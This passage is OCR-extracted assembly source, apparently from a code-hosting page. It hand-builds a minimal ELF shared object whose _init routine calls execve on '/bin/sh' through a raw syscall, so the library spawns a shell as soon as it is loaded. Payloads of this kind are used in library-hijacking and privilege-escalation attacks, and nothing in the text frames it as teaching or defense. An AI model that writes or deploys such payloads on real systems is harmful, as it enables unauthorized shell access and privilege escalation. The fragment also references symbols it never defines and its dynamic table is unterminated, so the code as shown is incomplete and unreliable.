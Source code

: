 ```asm
  dw 0
  dq 0
  dq 0
  dd 7
  db 0x10
  db 0
  dw 7
  dq 0x200300
  dq 0
  dd 0x1a
  db 0x10
  db 0
  dw 7
  dq 0x200300
  dq 0
  dd 1
  db 0x12
  db 0
  dw 5 
  dq _init
  dq 0
dt_strtab:
  db 0
  db "_init", 0
  db "_edata", 0
  db "__bss_start", 0
  db "_end", 0
  db 0
  dq 0
_init:
  xor rax,rax
  mov rdx, rax
  mov rbx,'/bin/sh'
  push rbx
  mov rdi,rsp
  push rax
  push rdi
  mov rsi,rsp
  mov al, 59
  syscall
filesize  equ  $ - $$
dynamic:
  dq 0x0c
  dq _init
  dq 0x6FFFFEF5 ; dummy dt_hash
  dq dt_hash
  dq 0x5
  dq dt_strtab
  dq 0x6
  dq dt_symtab
```
